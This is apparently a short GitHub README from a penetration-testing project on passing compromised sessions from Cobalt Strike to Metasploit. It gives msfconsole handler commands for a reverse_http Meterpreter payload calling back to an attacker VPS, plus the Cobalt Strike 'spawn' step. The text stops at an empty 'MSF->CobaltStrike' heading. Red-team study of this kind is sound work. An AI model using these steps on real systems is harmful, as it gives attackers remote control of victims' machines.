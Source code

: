 ## Penetration testing & MSF linked with CobaltStrike<br>

## CobaltStrike->MSF<br>

Run `msfconsole` to start listening.<br>

``<br>
msfconsole<br>
use exploit/multi/handler<br>
set payload windows/meterpreter/reverse_http<br>
set lhost vps_ip<br>
set lport 44444<br>
set lhost vps_ip set lport 44444<br>
```

<img width="1174" alt="1" src="https://github.com/sec13b/Penetration-testing-MSF-linked-with-CobaltStrike/assets/123419537/25a7233e-f8d0-4f72-b06d-1e155b2b2e63"><br><br>


Next `CobaltStrike` creates an external listener with `Host` and `Port` as `lhost` and `lport`.<br><br>

<img width="1467" alt="2" src="https://github.com/sec13b/Penetration-testing-MSF-linked-with-CobaltStrike/assets/123419537/6a85b464-83fe-4f35-8681-5f6b2ee4da50"><br><br>


Next the session is spawned over, the command `spawn 105-msf` is executed on the `CobaltStrike` console, and `msf` receives that the spawned session went live successfully.<br><br>

 

<img width="1467" alt="3" src="https://github.com/sec13b/Penetration-testing-MSF-linked-with-CobaltStrike/assets/123419537/cf361455-c336-4ab0-834e-d6d5d7df8ebf"><br><br>


## MSF->CobaltStrike
